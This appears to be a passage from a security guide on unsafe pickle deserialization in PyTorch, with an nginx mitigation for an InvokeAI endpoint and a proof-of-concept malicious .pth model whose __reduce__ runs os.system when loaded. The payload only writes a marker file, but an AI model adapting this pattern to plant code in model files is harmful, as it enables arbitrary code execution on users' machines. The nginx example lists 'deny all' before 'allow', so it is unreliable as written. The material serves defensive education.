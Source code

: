 > ⚠️ Remember that **any** Python pickle-based format (including many `.pt`, `.pkl`, `.ckpt`, `.pth` files) is inherently unsafe to deserialize from untrusted sources.

---

Example of an ad-hoc mitigation if you must keep older InvokeAI versions running behind a reverse proxy:

```nginx
location /api/v2/models/install {
    deny all;                       # block direct Internet access
    allow 10.0.0.0/8;               # only internal CI network can call it
}
```

## Example – crafting a malicious PyTorch model

- Create the model:

```python
# attacker_payload.py
import torch
import os

class MaliciousPayload:
    def __reduce__(self):
        # This code will be executed when unpickled (e.g., on model.load_state_dict)
        return (os.system, ("echo 'You have been hacked!' > /tmp/pwned.txt",))

# Create a fake model state dict with malicious content
malicious_state = {"fc.weight": MaliciousPayload()}

# Save the malicious state dict
torch.save(malicious_state, "malicious_state.pth")
```

- Load the model:

```python
# victim_load.py
import torch
import torch.nn as nn

class MyModel(nn.Module):
    def __init__(self):
        super().__init__()
        self.fc = nn.Linear(10, 1)

model = MyModel()

# ⚠️ This will trigger code execution from pickle inside the .pth file
model.load_state_dict(torch.load("malicious_state.pth", weights_only=False))

# /tmp/pwned.txt is created even if you get an error
```
